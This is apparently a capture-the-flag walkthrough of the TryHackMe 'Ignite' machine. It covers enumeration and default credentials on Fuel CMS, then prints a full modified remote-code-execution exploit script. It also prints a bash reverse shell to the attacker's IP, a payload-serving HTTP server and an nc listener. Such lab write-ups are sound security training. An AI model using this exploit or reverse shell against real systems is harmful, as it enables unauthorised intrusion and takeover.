 # Ignite

![logo](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/bd001816-10a2-47d1-a383-7be389a99ca8)

## Enumeration
we use nmap to scan the target :

```bash
nmap -sT -sV 10.10.128.117
```

opening the browser on machine IP will show some information :

![firstPage](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/c8c00347-73c8-4ef9-926d-d29fa78eef2b)

with some extra information showing the location of config files :

![configFiles](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/5686dbcd-c9f4-4a27-8951-666f078f27d1)

as it is obvious the username and password for logging in is `admin:admin`

in the CMS itself there is no way to upload a file (at least i tried verious extensions) but none of the worked.

i decided to search for `fuel cms` exploit wtih `searchsploit` :

```bash
searchsploit fuel cms
```

![searchsploit](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/e6947bc4-4829-446a-9b3e-11427b29f5da)

it shows that version `1.4.1` has remote code execution vulnerability, so download the exploit `47138.py` from exploit-db.com

![exdb](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/8eb1c17c-2b47-45d9-9b31-21f70afae927)

from the original code you need to change afew things :

![code](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/83f8a4b2-8d98-441c-bf2d-f91eab06ca6f)

```md
1.Change the url to machine IP address
2.Comment out the proxy line
3.Remove the proxies=proxy parameter
```

the final code should be like this :
```python
import requests
import urllib

url = "http://10.10.128.117:80"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
        xxxx = raw_input('cmd:')
        burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
        #proxy = {"http":"http://127.0.0.1:8080"}
        r = requests.get(burp0_url)

        html = "<!DOCTYPE html>"
        htmlcharset = r.text.find(html)

        begin = r.text[0:20]
        dup = find_nth_overlapping(r.text,begin,2)

        print r.text[0:dup]
```

now execute it with `python2`, it gives you a `cmd` that you can run command with it, for example `ls` :

![cmd](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/38c85ca2-99ba-4550-8d9e-c27429a5a6d3)

you just need to upload your reverse shell to the target so i used bash revshell and saved it to a file call `r.sh` :

```bash
bash -i >& /dev/tcp/10.6.74.10/4444 0>&1
```

use python to make the file downloadable for the target :

```python
pythn3 -m http.server 8080
```

and get the file from the victim :

![wget](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/2edb533f-3dab-4211-bc39-eaa5971276f1)

after downloading the file on the victim now its time to execute it, first listen on your desired port with `nc` like `nc -nvlp 4444` :

![bash](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/08309f4c-f1bf-494c-ae17-c607353db37e)








